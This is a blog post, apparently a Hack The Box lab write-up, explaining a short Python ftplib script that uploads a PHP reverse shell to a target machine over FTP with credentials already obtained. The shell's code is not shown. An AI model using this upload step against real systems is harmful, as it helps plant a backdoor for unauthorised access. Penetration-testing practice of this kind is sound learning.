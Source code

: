 ```yaml
---
layout: post
title: Python Script to upload file to an FTP server
---
```


## Boring Explanations *tldr

I was working on **HTB** the other day and came across a mini hurdle that led to this post. I needed to upload a **PHP reverse shell** via **ftp**, and I had already acquired the credentials to login via ftp. However, ftp was operating file upload in **binary mode**, hence nomatter how many times i tried to upload the file using **put** , it did not work.

![FTP Binary Mode]({{site.url }}/imgs/ftp/ftp1.png)

So i did some research and figured I can write a python script with less than 10 lines to do the job. 

- HTB: Hack the Box(htb) is an online platform with over 200 vulnerable machines that can be manipulated to practice and develop penetration testing skills. It is a really great way to learn about real life vulnerabilities as well as enumeration and privelege escalation techniques. View their site [here](https://www.hackthebox.eu).
- A reverse shell: A reverse shell is a shell session established on a connection that is initiated from a remote machine, not from the local host. Attackers who successfully exploit a remote command execution vulnerability can use a reverse shell to obtain an interactive shell session on the target machine and continue their attack.You can read more about reverse shells [here](https://www.netsparker.com/blog/web-security/understanding-reverse-shells/).
- FTP: File Transfer Protocol:The File Transfer Protocol (FTP) is a standard network protocol used for the transfer of computer files between a client and server on a computer network. FTP is built on a client-server model architecture using separate control and data connections between the client and the server.Read more about ftp [here](https://searchnetworking.techtarget.com/definition/File-Transfer-Protocol-FTP).
- FTP binary mode: Binary transfer mode is an FTP mode used to transfer files without modification or conversion. Files are transferred without conversion resulting in the same file on the source computer as the destination computer. Visit this [link](https://knowledge.broadcom.com/external/article/28212/ftp-ascii-vs-binary-mode-what-it-means.html) to understand more.
- FTP put:This is a command used to copy a file from the local system to the remote system. This [site](http://www.simotime.com/ftp4cmd1.htm#FTPcommandlist) shows a list of ftp commands and their descriptions.

## The script

![FTP Binary Mode]({{site.url }}/imgs/ftp/ftp2.png)

We'll be breaking down the script and explaining it line by line.

```
import ftplib
```
ftplib is an FTP protocol client that implements the client side of FTP protocol. We need to use this to connect to the ftp server hence we import it. 

```
server = ftplib.FTP('10.10.10.197', 'username', 'password')
```

Next, we define the ftp server(the url which we want to connect to) and the credentials we are going to be using to login. 

```
with open('revshell.php', 'rb') as upload_file:
    server.storbinary('STOR username/revshell.php', upload_file)
```

Next we make sure that the reverse shell that we want to upload to the ftp server is in the directory that we are working in. We open the file in binary mode(**rb**) and use the method storbinary to upload it. The method [storbinary()](https://pythontic.com/ftplib/ftp/storbinary) initiates a file transfer from an FTP client to a an FTP server using the FTP command STOR.
The file transfer is done in binary mode.

```
print(server.dir('username'))
```
Lastly, we issue a print statement to view the file we just uploaded in the user directory.

Here's the code in full:

```
import ftplib

server = ftplib.FTP('10.10.10.197', 'username', 'password')
with open('revshell.php', 'rb') as upload_file:
    server.storbinary('STOR username/revshell.php', upload_file)

print(server.dir('username'))

```

There you have it, a very easy and straight forward script that can come in handy!